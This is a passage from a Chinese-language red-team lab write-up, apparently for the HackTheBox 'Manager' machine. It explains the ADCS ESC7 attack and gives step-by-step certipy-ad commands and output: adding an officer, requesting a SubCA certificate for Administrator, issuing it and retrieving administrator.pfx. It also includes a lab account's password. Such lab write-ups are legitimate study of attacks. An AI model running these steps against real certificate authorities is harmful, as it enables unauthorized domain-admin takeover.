 从枚举结果可知，可以使用 `raven` 进行 `ESC7` 攻击，让我们详细分析下 `ESC7` 漏洞的原理：

`ESC7` 本质上通过滥用证书授权权限进行提权。该攻击方式的原理如下：

1. 如果账户具有 `ManageCA` 权限，我们可以将 `ManageCertificate` 权限分配给任何帐户。
2. 如果账户具有 `ManageCertificates` 权限，我们可以远程批准待处理的证书请求，绕过 `CA certificate manager approval` 的保护。
3. `SubCA` 是ADCS内置的证书模板，可以被 `ESC1` 攻击。但是只允许 `Domain Admins` 和 `Enterprise Admins` 注册。
4. 通过结合以上两个权限，我们对 `SubCA` 证书模板发起 `ESC1` 攻击 (由于我们没有注册权限，所以会遇到 `CERTSRV_E_TEMPLATE_DENIED` 错误)，我们记录下发起注册的ID和使用的私钥。然后使用 `ManageCertificates` 权限批准我们注册的证书  (根据上一步记下的ID进行批准)。最后我们根据ID和记录的私钥，检索刚刚批准颁发的证书，并用其进行身份认证。

注：`ESC1` 攻击原理可以阅读  **红队靶场笔记 01-Escape**

接下来我们利用 `ESC7` 漏洞提权到 `Administrator` 权限

第一步：通过 `ManageCa` 权限，赋予自己 `ManageCertificates` 权限 (使用 `-add-officer` 参数)

```bash
kali@kali[~]$ certipy-ad ca -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -add-officer raven
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

第二步： 使用 `SubCA` 证书模板，注册一个 `SAN` 为 `Administrator` 的证书

```bash
kali@kali[~]$ certipy-ad req -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -dc-ip 10.10.11.236 -template SubCA -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 20
Would you like to save the private key? (y/N) y
[*] Saved private key to 20.key
[-] Failed to request certificate
```

记下我们的 `Request ID` 并 (输入 y) 保留私钥

第三步：通过 `ManageCertificates` 权限发布刚刚申请失败的证书

```bash
kali@kali[~]$ certipy-ad ca -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -issue-request 20 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

第四步：通过 ID 和私钥文件，检索我们发布的证书

```bash
kali@kali[~]$ certipy-ad req -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -retrieve 20     
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 20
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Loaded private key from '20.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
